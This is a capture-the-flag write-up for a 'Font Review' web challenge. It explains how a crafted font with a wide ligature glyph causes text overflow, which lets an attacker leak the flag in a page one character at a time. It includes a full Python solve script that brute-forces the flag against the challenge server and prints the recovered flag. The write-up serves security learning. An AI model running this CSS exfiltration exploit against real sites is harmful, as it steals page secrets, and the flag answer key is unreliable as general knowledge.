

# Font Review
## Description
I'm a graphic designer trying to improve my typography skills. Let me review your font!

https://font-review.chall.pwnoh.io

Hint: Epic Haskellers like these fonts for some reason.
## Author
mbund
## Resources
`export.zip` - source code
## Solution
### Steps
0. By auditing the source code, we can control the `font-face` of the website, and we want to leak the flag in somewhere of the page inside of `<p>`.
1. This is a `CSS-cascading` challenge, which means we only can use `CSS`.
2. Firstly, I tried to use `unicode-range` of `font-face` to leak the flag by hoping the page will load font char by char in a kind of order. However, it doesn't work..
3. Then, since the bot check if the page has text overflowed, it offer us a chance to leak the flag by `ligatures` of custom font. [reference in hacktricks](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection#text-node-exfiltration-i-ligatures-1)
### Solving
0. First of all, I choose to use `svg` font as same as the tip in `hacktricks`. Then we need to use `fontforge` to convert `svg` to `woff` (since the browser no longer support svgfont).
1. The basic idea is to make a custom font with custom width of each char to make it not overflow normally. Then give a significant width to flag `ligatures` to make it overflow.
2. Unlike the solve script in `hacktricks`, we can't just simply set all other character to zero (the width of ligatures will be larger than its range to make it overflow).
3. After that, we can just leak the flag char by char by adding char into flag ligatures.
4. Done!

solve.py:  
```python
# Author:   Eritque arcus
# Date:     10/01/2023
import base64, os, requests 
from time import sleep

font1 = """<svg>
<defs>
<font id="hack" horiz-adv-x="300">
<font-face font-family="hack" units-per-em="100" />
<missing-glyph />
<glyph unicode="a" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="b" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="c" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="d" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="e" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="f" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="g" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="h" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="i" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="j" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="k" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="l" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="m" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="n" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="o" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="p" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="q" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="r" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="s" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="t" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="u" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="v" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="w" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="x" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="y" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="z" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="{" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="}" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="0" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="1" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="2" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="3" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="4" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="5" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="6" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="7" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="8" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="9" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="_" horiz-adv-x="300" d="M1 0z"/>
</font>
</defs>
</svg>
"""

s = requests.Session()
s.headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36"}

with open("./fonts/font1-bak.svg", "wb") as f:
    f.write(font1.encode())

def genFont():
    # use fontforge to convert svg to woff (svg font isn't supported), the workdir must be current folder
    # run.sh is
    # #!/usr/bin/fontforge
    # Open($1)
    # Generate($1:r + ".woff")
    os.system("./fonts/run.sh ./fonts/font1.svg")
    url = ""
    with open("fonts/font1.woff", "rb") as f:
        font1 = f.read()
        url = "data:application/x-font-woff;base64," + base64.b64encode(font1).decode()
    return url

def isOverrflow(payload):
    re = s.post(url, data={"url": payload}, timeout=5).text
    return "Amazing" not in re

local_url = "http://127.0.0.1:3001"
url = "https://font-review.chall.pwnoh.io"

# get a proper font size to make it not overflow as default
curr = 300
os.system("cp ./fonts/font1-bak.svg ./fonts/font1.svg")

while isOverrflow(genFont()):
    with open("fonts/font1.svg", "r") as f:
        content = f.read()
    with open("fonts/font1.svg", "w") as f:
        # step is 25
        f.write(content.replace("horiz-adv-x=\"" + str(curr) + "\"", "horiz-adv-x=\"" + str(curr - 25) + "\""))
    curr -= 25
    # for rate limit if needed
    # sleep(1)

if curr == 300:
    print("Error! should increase the first font size")
    exit()

print(curr)

# result is 125 for each char
# curr = 125

# add flag byte by byte
# for started from breakpoint (due to the rate limit of the server)
# flag = "bctf{l34rn1n6_6r347_6r4ph1c_d3516n"
flag = "bctf{"
origin = "</font>"

def update_flag(origin, flag):

    with open("fonts/font1.svg", "r") as f:
        content = f.read()

    with open("fonts/font1.svg", "w") as f:
        if origin == "</font>":
            # if this is the first time to update the flag
            f.write(content.replace("</font>", f"""<glyph unicode="{flag}" horiz-adv-x="{(len(flag) + 10) * curr}" d="M1 0z"/>\n</font>"""))
        else:
            f.write(content.replace(origin, f"""<glyph unicode="{flag}" horiz-adv-x="{(len(flag) + 10) * curr}" d="M1 0z"/>""")) # 10 is magic number

    # used by next time replacement (Also we can use regex to do this)
    return f"""<glyph unicode="{flag}" horiz-adv-x="{(len(flag) + 10) * curr}" d="M1 0z"/>"""

# for started from breakpoint
# origin = """<glyph unicode="bctf{l34rn1n6_6r347_6r4ph1c_d3516n1" horiz-adv-x="5625" d="M1 0z"/>"""
origin = update_flag(origin, flag)
# make sure it will overflow if we make known flag larger
assert(isOverrflow(genFont()))
print("test passed")
found = False

# }_
# abcdefghijklmnopqrstuvwxyz
# '0123456789'
while not flag.endswith("}"):
    for i in "}_" + "0123456789" + "abcdefghijklmnopqrstuvwxyz":
        origin = update_flag(origin, flag + i)
        print(flag + i)
        # sleep for rate limit if needed
        # sleep(2)
        if isOverrflow(genFont()):
            flag += i
            found = True
            break
    if not found:
        print(flag)
        print("Panic!!!")
        break

# bctf{l34rn1n6_6r347_6r4ph1c_d3516n}
print(flag)
```  
The breakpoint of svg font is like:
```svg
<svg>
<defs>
<font id="hack" horiz-adv-x="125">
<font-face font-family="hack" units-per-em="100" />
<missing-glyph />
<glyph unicode="a" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="b" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="c" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="d" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="e" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="f" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="g" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="h" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="i" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="j" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="k" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="l" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="m" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="n" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="o" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="p" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="q" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="r" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="s" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="t" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="u" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="v" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="w" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="x" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="y" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="z" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="{" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="}" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="0" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="1" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="2" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="3" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="4" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="5" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="6" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="7" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="8" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="9" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="_" horiz-adv-x="125" d="M1 0z"/>
<glyph unicode="bctf{l34rn1n6_6r347_6r4ph1c" horiz-adv-x="4625" d="M1 0z"/>
</font>
</defs>
</svg>
```